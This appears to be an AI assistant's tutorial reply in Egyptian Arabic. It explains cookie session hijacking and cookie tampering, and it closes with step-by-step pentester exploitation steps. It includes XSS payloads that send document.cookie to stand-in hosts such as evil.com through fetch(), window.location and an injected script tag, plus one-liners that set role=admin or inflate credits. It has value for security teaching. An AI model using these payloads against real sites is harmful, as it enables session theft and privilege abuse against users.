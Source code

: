 تمام، هشرحلك القسم ده: **"HTTP Cookies: Security risks: session hijacking, cookie tampering"** بنفس الطريقة السابقة: بعمق وبساطة، مع تنسيق خفيف عشان النسخ يطلع نضيف، ورموز وإيموجي بسيطة للتزيين، وخلاصة بالعامية المصرية بعد كل جزء، وفي الآخر خطوات عملية للاستغلال كـ **Pentester** مع كودات (بدون صيغة ```http). يلا نبدأ! 🚀

---

### 🌟 1. إيه المقصود بمخاطر أمان الكوكيز؟ 🌟  
معناه: الكوكيز (HTTP Cookies) هي بيانات صغيرة بتتخزن على جهازك عشان الموقع يتعرف عليك، لكن لو مفيش حماية كويسة، ممكن تتعرض لمخاطر.  
القسم ده بيركز على مخاطر زي:  
- 🔓 **Session Hijacking (سرقة الجلسة):** لما حد يسرق الكوكي بتاعتك ويستخدمها عشان يدخل مكانك.  
- ✏️ **Cookie Tampering (التلاعب في الكوكيز):** لما حد يغير قيم الكوكي عشان يخدع الموقع.  

الخلاصة بالعامية: الكوكيز زي كارت الدخول، لو حد سرقه أو عبّص فيه، هيدخل مكانك! 😱

---

### ⚙️ 2. إيه هي "سرقة الجلسة" (Session Hijacking)؟ ⚙️  
الآلية: الكوكيز بتحمل حاجة زي "session_id" (رقم تعريف الجلسة) عشان تثبت إنك مسجل دخول. لو حد سرق الـ "session_id" ده، يقدر يدخل الموقع كأنه أنت.  
كيف بتحصل؟  
- 📡 **اعتراض الكوكي:** لو بتستخدم شبكة Wi-Fi مفتوحة أو الموقع مش بيستخدم HTTPS، حد يقدر يشوف الكوكي.  
- 💉 **XSS (Cross-Site Scripting):** لو الموقع فيه ثغرة، تقدر تسرق الكوكي بكود.  

رمز بسيط:  
- كوكي جلسة:  
```javascript
document.cookie = "session_id=abc123";
```
- سرقتها بـ XSS:  
```javascript
window.location = "http://evil.com/steal?cookie=" + document.cookie;
```

الخلاصة بالعامية: زي ما حد يسرق كارت المترو بتاعك ويركب مكانك! 🚇

---

### ⚠️ 3. إيه هي "التلاعب في الكوكيز" (Cookie Tampering)؟ ⚠️  
الآلية: لما تغير قيمة الكوكي على جهازك عشان تخلّي الموقع يتصرف بطريقة مختلفة.  
كيف بتحصل؟  
- ✏️ **تعديل يدوي:** الكوكيز موجودة في المتصفح، تقدر تغيرها بسهولة.  
- 🚪 **ضعف الحماية:** لو الكوكي مش مشفرة أو السيرفر بيثق فيها من غير فحص، التغيير بينجح.  

رمز بسيط:  
- كوكي عادية:  
```javascript
document.cookie = "role=user";
```
- تلاعب فيها:  
```javascript
document.cookie = "role=admin";
```

المخاطر:  
- 🔑 تغير صلاحياتك: من "user" لـ "admin".  
- 💰 تغير قيم: زي "credits=100" لـ "credits=1000".  

الخلاصة بالعامية: زي ما تمسح الرقم من الشيك وتكتب واحد أكبر! 💸

---

### 🛡️ 4. إزاي تستغل المخاطر دي كـ Pentester؟ 🛡️  
الآلية: الكوكيز بتكون على جهازك، ولو مفيش حماية زي "HttpOnly" أو "Secure"، تقدر تسرقها أو تعدلها.  
أمثلة للاستغلال:  
- 🔓 **Session Hijacking:** تسرق "session_id" وتستخدمه عشان تدخل مكان المستخدم.  
- ✏️ **Cookie Tampering:** تغير قيمة زي "role" أو "credits" وتشوف السيرفر هيعمل إيه.  

رموز عملية:  
- سرقة كوكي:  
```javascript
fetch("http://evil.com/steal?cookie=" + document.cookie);
```
- تلاعب في كوكي:  
```javascript
document.cookie = "credits=9999";
```
- اختبار التغيير (مثال نصي):  
"POST /profile with cookie: role=admin"

الخلاصة بالعامية: زي ما تسرق البطاقة أو تعدلها وتخلّي الموقع يفتكرك مدير! 😈

---

### 🔧 خطوات عملية للاستغلال كـ Pentester مع كودات 🔧  
1. 🔍 فحص الكوكيز:  
   - افتح F12 > "Application" > "Cookies"، بص على الكوكيز.  
   - لو لقيت: "session_id=abc123"، جرب تسرقه:  
     ```javascript
     window.location = "http://your-site.com/steal?cookie=" + document.cookie;
     ```

2. ✏️ تعديل الكوكي:  
   - لو فيه: "role=user"، غيره:  
     ```javascript
     document.cookie = "role=admin";
     ```

3. 💉 اختبار XSS للسرقة:  
   - حط في حقل إنبوت:  
     ```html
     <script>fetch("http://evil.com/steal?cookie=" + document.cookie);</script>
     ```

4. 🚨 تلاعب في القيم:  
   - لو فيه: "credits=100"، عدله:  
     ```javascript
     document.cookie = "credits=10000";
     ```

5. 🛠️ اعتراض الطلب:  
   - استخدم Burp Suite، غير الكوكي (مثال نصي):  
     "POST /page with cookie: session_id=xyz789"

---

### 📝 ملاحظة أخلاقية:  
كل ده لازم يكون بإذن من صاحب الموقع، عشان متلاقيش نفسك في مشكلة! ⚖️  

لو عايز تفاصيل أكتر أو كود زيادة، قوللي وأظبطهالك! 🌈